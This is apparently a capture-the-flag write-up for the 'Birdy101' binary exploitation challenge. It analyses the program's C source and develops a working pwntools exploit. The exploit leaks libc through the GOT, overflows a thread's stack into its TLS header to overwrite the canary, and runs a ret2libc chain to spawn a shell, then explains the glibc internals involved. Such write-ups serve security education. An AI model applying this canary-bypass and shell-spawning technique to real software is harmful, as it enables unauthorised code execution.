

# Birdy101
```
4 solves / 464 points
Author: TheFlash2k
These birds are unpredictable.
```
___
# Introduction
In this writeup I will document my general approach for this ctf challenge, how I found the vulnrability and how I exploited it.
# Starting the challenge
In the challenge we get the files `Birdy101`, `Birdy101.c`, `flag.txt` and a `Dockerfile`.

The `Birdy101` file is just an `ELF 64-bit` executable, so I can run it.
```bash
$ file Birdy101
Birdy101: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=401cc71df86e98e2dc56d8a696e9ba5a7cbe6f55, for GNU/Linux 3.2.0, not
```

Also, `Birdy101.c` seems to be the `c` code for that executable.
# Blackbox Testing
Running the executable, we can see that it asks us to input a name.
I tried inputting `Tomer` and it crashed
```
$ ./Birdy101
What is your name? Tomer
Segmentation fault (core dumped)
```

# Looking at the `Birdy101.c` file
It seems like there are two functions called from main, `register_user` and `vuln`.

We saw that the user registration failed, so I looked at that function
```c
void register_user() {
    const int SZ = 256;
    char default_user[] = "DEFAULT";
    char buffer[SZ];
    char *name = buffer;
    memset(name, 0x0, SZ);
    printf("What is your name? ");
    if(read(STDIN_FILENO, &name, SZ-1) < 0) {
        name = default_user;
    }
    printf("Welcome %s\n", name);
}
```

And voilà, we read into the variable name, and not into the buffer pointed to by name.
Also, we print name afterwards, so **we can leak memory**!

I also looked at the `vuln` function, it's called `vuln` so why not.

```c
void vuln() {
    pthread_t pt;
    if(pthread_create(&pt, NULL, (void*)notepad, NULL) < 0) {
        fprintf(stderr, "Unable to spawn a new thread. Something's wrong. Please check!");
        exit(1);
    }
    if(pthread_join(pt, NULL) != 0){
        fprintf(stderr, "Well, something's messed up.");
    }
}
```

So we just create a new thread and call the `notepad` function with it.
I looked at the `notepad` function
```c
void notepad() {
    char buffer[0x100];
    printf("[Under construction] - This section is underconstruction and only allows a single note to be kept in memory\nEnter the contents you want to store: ");
    if(read(STDIN_FILENO, buffer, 0x1000) < 0) {
        fprintf(stderr, "Unable to read the contents of your note. :(");
        exit(1);
    }
    printf("Thank you for storing the note.\n");
}
```

And we get another bof!
we read `0x1000` bytes into the `buffer` variable, which is `0x100` bytes long.

# Exploiting this
The first thing I did was run `checksec` on the binary.
```bash
$ checksec Birdy101
[*] '/path/to/executable/Birdy101'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Sadly, we got a canary.
That means that this challenge wont be super easy...
Luckily the executable is not position independant so we can leak the `got` or maybe run other types of attacks!

## Leaking the canary
---
*We can read every address we want, so why not leak the canary?*
___
When we write to the location of `name` we are able to override only a couple of opcodes.
That means that if, for example, the value of `name` is `0x00007fffffffe000` we can overrite only the last byte and turn it into `0x00007fffffffe0XX`.

Using the fact that the canary is on the stack, we might be able to "beat" aslr and leak it using that method.

Sadly for us, the value of `name` is initiated as  `buffer` (pointer to the first char).
That means that there is a buffer of `256` characters above the location the `name` variable holds (aka, the `buffer` variable), meaning that the location of the canary is bigger than `location_of_buffer + 256` or, in other words, more than one byte needs to be changed :(

using `gdb` I saw that the  stack canary's location always ends with an 8
(I put a breakpoint at the end of  `register_user` and looked at the location of `$rbp-24`)
*for example* `0x7fffffffe208`.

That means that we need to bruteforce one and a half bytes, or in other words 12 bits.

That's a `1/4096` chance!
I didn't want to spam the servers so I opened a ticket and turns out that's not the intended solution. Sad :(

## Exploiting the `vuln/notepad` functions
One weird thing that happens in the `vuln` function is the initiation of a new pthread. I started searching for `pthread canary bof bypass` or other bullshit on google and I found stuff I didn't really understand about changing the canary and overwriting `TLS`, but than I realised that I didn't even try to run the function and overflow it!

I created a quick script
```python
from pwn import *

file = "./Birdy101"

elf = ELF(file)


con = process("./Birdy101")

# We still don't use it. just something that wont crash
con.send(p64(elf.symbols["got.printf"]))

con.send(cyclic(0x1000))

con.interactive()
```

And something super interesting happend, I didn't get a `*** stack smashing detected ***: terminated` message, and the program ended with `SIGSEGV`
```bash
$ python exploit.py
[*] '/tmp/a/Birdy101'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './Birdy101': pid 13298
[*] Switching to interactive mode
What is your name? Welcome 0\x10@
[Under construction] - This section is underconstruction and only allows a single note to be kept in memory
Enter the contents you want to store: [*] Got EOF while reading in interactive
$
[*] Process './Birdy101' stopped with exit code -11 (SIGSEGV) (pid 13298)
[*] Got EOF while sending in interactive
```

I attached a gdb instance
```python
from pwn import *

file = "./Birdy101"

elf = ELF(file)


con = process("./Birdy101")
p = gdb.attach(con, gdbscript="""
c
""")

# We still don't use it. just something that wont crash
con.send(p64(elf.symbols["got.printf"]))

# Wait for the read, gdb makes things slow or whatever
time.sleep(1)
con.send(cyclic(0x1000))

con.interactive()
```

using gdb I saw that the crash happesn at the function `__GI__pthread_disable_asynccancel` at offset `18`.


I added a breakpoint just before there, and i saw that the `mov rax, QWORD PTR fs:0x10` moves `faaxgaax` into the `rax` register, it looks like we somehow overwrote into the location where `fs` points to! that's amazing because the canary is stored at location `fs:0x28`.
If we could change the canary to whatever we want to, we could bypass it!

We crash on a `SIGSEGV` for location `rax+0x972`. We can control `rax` (`fs:0x10`) so let's just make it point to a writeable location (for eaxmple, `.bss`) 
```bash
$ readelf -S Birdy101 | grep .bss
  [27] .bss              NOBITS           0000000000404080  00003080
```

I changed my payload to be
```python
con.send(cyclic(cyclic_find('faaxgaax')) + p64(elf.bss() - 0x972))
```

and now we get the `*** stack smashing detected ***: terminated` string again!

```bash
$ python exploit.py
[*] '/tmp/a/Birdy101'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './Birdy101': pid 23947
[!] cyclic_find() expected a 4-byte subsequence, you gave b'faaxgaax'
    Unless you specified cyclic(..., n=8), you probably just want the first 4 bytes.
    Truncating the data at 4 bytes.  Specify cyclic_find(..., n=8) to override this.
[*] Switching to interactive mode
What is your name? Welcome 0\x10@
[Under construction] - This section is underconstruction and only allows a single note to be kept in memory
Enter the contents you want to store: *** stack smashing detected ***: terminated
[*] Got EOF while reading in interactive
$
[*] Process './Birdy101' stopped with exit code -6 (SIGABRT) (pid 23947)
```

So now we overwrote `fs:0x10`.
I changed the payload to be
```python
payload = cyclic(cyclic_find('faaxgaax'))
payload += p64(elf.bss() - 0x972)
payload += cyclic(0x100)
```

using `gdb` I saw that this indeed worked, and that the canary was `eaaafaaa`.
I changed my payload to be
```python
payload = cyclic(cyclic_find('faaxgaax'))
payload += p64(elf.bss() - 0x972)
payload += cyclic(cyclic_find('eaaafaaa'))
payload += p64(0xAAAAAAAA)
```

and the canary was `0xAAAAAAAA`, now I fully control it!

That means I can overwrite it and use a `ret2libc` attack!

# Final exploit
1. I leaked the libc base using the vuln in `register_user`
2. I used the overflow in `vuln` to grant me a shell
3. I used the overflow in `vuln` to change the canary

`exploit.py`
```python
from pwn import *

file = "./Birdy101"
libc = "./libc.so.6"

elf = ELF(file)
libc = ELF(libc)
rop_libc = ROP(libc)

# symbols and locations
PRINTF_GOT_ENTRY = elf.symbols["got.printf"]
PRINTF_LIBC_OFFSET = libc.symbols["printf"]
SYSTEM_LIBC_OFFSET = libc.symbols["system"]
BSS_LOCATION = elf.bss()

CHANGED_CANARY = b"TOMERRRR"

BIN_SH = next(libc.search(b'/bin/sh'))
RET_RDI = rop_libc.rdi.address
RETN = rop_libc.retn.address


def main():
    con = process("./Birdy101")

    # 1. We still don't use it. just something that wont crash
    con.send(p64(PRINTF_GOT_ENTRY))
    con.readuntil(b"Welcome ")
    printf_location = u64(con.read(6) + b'\0\0') # read 6 and add \0\0 because string is null terminated.
    libc_base = printf_location - PRINTF_LIBC_OFFSET

    # Wait for the read, gdb makes things slow or whatever
    time.sleep(3)

    payload =  cyclic(0x108) # Buffer + Buffer Pointer

    # 2. Using the vulnrability to get a shell
    payload += CHANGED_CANARY
    payload += b"FILLERRR" # will be loaded into rbp by leave instruction, disposable.
    payload += p64(libc_base + RET_RDI) # value passed by registers in x64
    payload += p64(libc_base + BIN_SH)
    payload += p64(libc_base + RETN)
    payload += p64(libc_base + SYSTEM_LIBC_OFFSET)

    # 3. Using the vulnrability to overwrite the canary
    payload = payload.ljust(0x910) # offset for overwriting fs:0x10
    payload += p64(BSS_LOCATION - 0x972)
    payload += cyclic(16) # offset of fs:0x10 to fs:0x28
    payload += CHANGED_CANARY
    con.send(payload)
    con.interactive()

if __name__ == "__main__":
    main()
```

# Deep dive
I don't feel like I fully understand what happened here, and that means that the challenge is not completly done!

Let's take a look at the inner workings of glibc (2.35) to better understand what happens here.


So what happens in this exploit?
We clearly overflow the stack, and than we overwrote some internal variable that is saved in the same region.
## What is TLS?
TLS stands for `Thread Local Storage`.
The TLS is a location in memory where the thread is saving it's private storage locally.

Looking at `pthread_create.c` from `glibc-2.35` we can take a look at the function `create_thread`, in that function we can see that TLS points to the same location that pd points to.

`allocatestack.c`
```c
static int
allocate_stack (const struct pthread_attr *attr, struct pthread **pdp, void **stack, size_t *stacksize)
{
...
	TLS_DEFINE_INIT_TP (tp, pd);
	struct clone_args args =
	{
		.flags = clone_flags,
		.pidfd = (uintptr_t) &pd->tid,
		.parent_tid = (uintptr_t) &pd->tid,
		.child_tid = (uintptr_t) &pd->tid,
		.stack = (uintptr_t) stackaddr.,
		.tls = (uintptr_t) tp,
	};
}
```

```c
# define TLS_DEFINE_INIT_TP(tp, pd) void *tp = (pd)
```


pd is allocated inside the `__pthread_create_2_1` function, inside the call to `allocate_stack`.
```c
allocate_stack
{
	
	...
	if (glibcy_unlikely (attr->flags & ATTR_FLAG_STACKADDR))
		{
		...
		adj = ((uintptr_t) stackaddr - TLS_TCB_SIZE) & tls_static_align_m1;
		...
#if TLS_TCB_AT_TP        < defined in x86_64
		pd = (struct pthread *) ((uinttr_t) stackaddr - TLS_SCB_SIZE - adj)
		}
	else
		{
		...
		pd = (struct pthread *) ((((uintptr_t) mem + size)
								  - TLS_TCB_SIZE)
								& ~tls_static_align_m1)
		}
}
```
So as we can see, pd is allocated at the end of the stack.

and is of size `pthread`
```c
struct pthread
{
	union
	{
#if !TLS_DTV_AT_TP        < defined in x86_64
	tcbhead_t header;
	}
}
```

If we overflow into it we could overwrite the `pthread` struct, starting with the `header`, which holds a lot of interesting information like the stack canary and the location of pd.

In linux `fs` is initalized as a pointer to the TLS.
So that means we can overwrite `TLS`, which the `fs` register points to, and thus overwrite the canary as done in the challenge!

### Cool sidenote
Remember that crash we had when reading `fs:0x10`?
Let's understand what happened there!

Looking at `__libc_read` we can see a call to `SYSCALL_CANCEL`.
```c
/* Read NBYTES into BUF from FD.  Return the number read or -1 */
ssize_t
__libc_read (int fd, void *buf, size_t nbytes)
{
	return SYSCALL_CANCEL (read, fd, buf, nbytes);
}
libc_hidden_def (__libc_read)
```

Looking at `SYSCALL_CANCEL`
```c
#define SYSCALL_CANCEL(...) \
  ({
    long int sc_ret;
    if (NO_SYSCALL_CANCEL_CHECKING)
      sc_ret = INLINE_SYSCALL_CALL (__VA_ARGS__);
    else
      {
        int sc_cancel_oldtype = LIBC_CANCEL_ASYNC ();
        sc_ret = INLINE_SYSCALL_CALL (__VA_ARGS__);
        LIBC_CANCEL_RESET (sc_cancel_oldtype);
	  }
    sc_ret;
})
```

We can take a look at the `LIBC_CANCEL_RESET` function, which is an alias to the `__pthread_disable_asynccancel` function.
```c
void __pthread_disable_asynccancel (int oldtype)
{
  struct __pthread *p = _pthread_self ();

  __pthread_mutex_lock (&p->cancel_lock);
  p->cancel_type = oldtype;
  __pthread_mutex_unlock (&p->cancel_lock);
}
```

As we can see, that function calls the `_pthread_self` function.
```c
pthread_t
__pthread_self (void)
{
  return (pthread_t) THREAD_SELF;
}
```

Looking at `THREAD_SELF`
```c
# if __GNUC_PEREQ (6, 0)
#    define THREAD_SELF \
    (*(struct pthread *__seg_fs *) offsetof (struct pthread, header.self))
# else
#  define THREAD_SELF \
  ({ struct pthread *self;                                                   \
     asm ("mov %%fs:%c1,%0" : "=r" (__self)                                  \
	      : "i" (offsetof (struct pthread, header.self)));                   \
	 __self;})
# endif
```

It seems like we try to read `fs` with the offset of `header.self` inside the `pthread` struct.

Looking at `pthread` we can see that this corresponds to `fs:0x10`. And this is the read that we failed on. That's because we overwrote the `TLS`, which means we overwrote the `pthread` class and thus changed that pointer!

More specifically, we crash when we try to change the `cancel_type` in our pthread struct to be `PTHREAD_CANCEL_ENABLE` instead of `PTHREAD_CANCEL_ASYNCHRONOUS`.

## Why isn't there a guard page before TLS?
Putting the whole `pthread` struct at the end of the stack seems very vulnerable, as proven by this challenge.

So why don't we put a guard page before it?
The sad answer is we just don't. There is a guard page after the end of the newly allocated `pthread` stack (if we didn't turn it off in the attributes/ didn't give our own stack to pthread), but we don't create a guard page before the TLS.